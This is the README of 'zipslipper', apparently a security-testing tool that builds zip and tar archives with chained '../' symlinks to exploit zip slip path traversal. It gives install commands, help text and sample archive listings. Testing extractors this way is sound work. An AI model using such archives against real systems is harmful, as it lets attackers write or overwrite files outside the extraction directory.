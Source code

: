 <a href="https://github.com/NodyHub/zipslipper/actions/workflows/golangci-lint.yml"><img src="https://github.com/NodyHub/zipslipper/actions/workflows/golangci-lint.yml/badge.svg" align="right" alt="golangci-lint"></a>
# zipslipper
Create tar/zip archives that try to exploit zipslip vulnerability.

## CLI Tool

You can use this library on the command line with the `zipslipper` command.

### Installation

```cli
go install github.com/NodyHub/zipslipper@latest
```

### Manual Build and Installation

```cli
git clone git@github.com:NodyHub/zipslipper.git
cd zipslipper
make
make install
```

## Usage

Basic usage on cli:

```shell
% zipslipper -h
Usage: zipslipper <input> <relative-path> <output-file> [flags]

A utility to build tar/zip archives that performs a zipslip attack.

Arguments:
  <input>            Input file.
  <relative-path>    Relative extraction path.
  <output-file>      Output file.

Flags:
  -h, --help                  Show context-sensitive help.
  -t, --archive-type="zip"    Archive type. (tar, zip)
  -v, --verbose               Verbose logging.
  -V, --version               Print release version information.
```

## Usage example

### Zip

```shell
(main[2]) ~/git/zipslipper% zipslipper go.mod ../../foo/bar/go.mod test.zip
(main[2]) ~/git/zipslipper% unzip -l test.zip
Archive:  test.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
        0  09-20-2024 11:01   sub/
        3  09-20-2024 11:01   sub/root
        3  09-20-2024 11:01   sub/root/outside
        3  09-20-2024 11:01   sub/root/outside/0
        3  09-20-2024 11:01   sub/root/outside/0/1
        0  09-20-2024 11:01   sub/root/outside/0/1/foo/
        0  09-20-2024 11:01   sub/root/outside/0/1/foo/bar/
      103  09-20-2024 08:39   sub/root/outside/0/1/foo/bar/go.mod
---------                     -------
      115                     8 files
```

### Tar

```shell
(main[2]) ~/git/zipslipper% zipslipper -t tar go.mod ../../foo/bar/go.mod test.tar
(main[2]) ~/git/zipslipper% tar ztvf test.tar
drwxr-xr-x  0 0      0           0 20 Sep 11:01 sub/
lrwxr-xr-x  0 0      0           0 20 Sep 11:01 sub/root -> ../
lrwxr-xr-x  0 0      0           0 20 Sep 11:01 sub/root/outside -> ../
lrwxr-xr-x  0 0      0           0 20 Sep 11:01 sub/root/outside/0 -> ../
lrwxr-xr-x  0 0      0           0 20 Sep 11:01 sub/root/outside/0/1 -> ../
drwxr-xr-x  0 0      0           0 20 Sep 11:01 sub/root/outside/0/1/foo/
drwxr-xr-x  0 0      0           0 20 Sep 11:01 sub/root/outside/0/1/foo/bar/
-rw-r--r--  0 jan    staff     103 20 Sep 08:39 sub/root/outside/0/1/foo/bar/go.mod
```

